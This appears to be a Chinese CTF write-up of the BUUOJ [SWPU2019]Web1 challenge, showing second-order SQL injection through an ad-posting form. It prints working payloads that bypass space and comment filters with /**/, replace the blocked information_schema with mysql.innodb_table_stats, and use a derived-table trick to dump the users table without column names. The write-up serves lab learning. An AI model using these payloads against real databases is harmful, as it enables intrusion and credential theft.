 # [SWPU2019]Web1

[题目地址](https://buuoj.cn/challenges#[SWPU2019]Web1)

开局一个登录框。自然是没测出来什么东西，老老实实注册一个用户，登录发现是一个广告发布平台。看到这个我就想到sql二次注入。从广告下手，找找漏洞点。当广告名为`'")}]`时，报错：

- You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '")}]' limit 0,1' at line 1

首要测试union select，看看有多少列什么的。

- ' union select 1,2,3#
    > 标题含有敏感词汇

不好有过滤。手动测试了一下，空格和#被过滤了。这俩都不是问题，空格用注释/**/绕，注释用另一个'闭合。这题不按套路出牌，平时我习惯直接1，2，3，4这样打，order by基本不用，因为一般都不会太多。这题打到10列的时候怀疑人生，遂用order by，然后被ban。行吧，上group by加二分法，上限50，最后得到有22行。

```
'union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```

回显在2和3。

现在就是爆数据了。问题在于重要的information_schema也被ban了。好的不懂了，看[wp](https://blog.csdn.net/shinygod/article/details/123681039)，发现这根本不是问题，甚至有两种方法绕：

```
mysql.innodb_table_stats
sys.schema_auto_increment_columns
```

开开心心构造payload。

```
'union/**/select/**/1,2,group_concat(table_name),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/from/**/mysql.innodb_table_stats/**/where/**/database_name="web1"'
```

这题比较奇怪，database_name必须是这种形式而不能是database()。不是大事，之前多花一步爆数据库名就好了。表有ads和users，现在终极问题来了，由于我们使用的不是information_schema，导致没发直接查列名，因为无论是mysql.innodb_table_stats还是sys.schema_auto_increment_columns，都没有记录列名。于是引入第二个技巧：[无列名注入](https://err0r.top/article/mardasctf/)。这个技巧可以让我们在不知道列名的情况下直接爆值。先看payload。

```
-1'union/**/select/**/1, (select/**/group_concat(b)/**/from(select/**/1,2,3/**/as/**/b/**/union/**/select * from/**/users)x),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22 
```

这里我们选择2的位置回显爆出的内容，把2处的查询语句分解来看。`select/**/group_concat(b)/**/from`是一部分，`(select/**/1,2,3/**/as/**/b/**/union/**/select * from/**/users)x`是另一部分。第一部分的b来自于第二部分`select 1,2,3 as b`这一小部分给第三号列取了个别名b，而第二部分括号里的内容，叫派生表，完全是无列名差值的公式，刚刚给的文章内有详细说明。x是这个派生表的名字，随便取一个就行。或者我们这么看，`(select/**/1,2,3/**/as/**/b/**/union/**/select * from/**/users)x`从users中展开一个名为x的派生表，里面有列1，2，b（3的别名）。就把这个表看作正常表，该怎么select怎么select，于是有了`select/**/group_concat(b)/**/from`。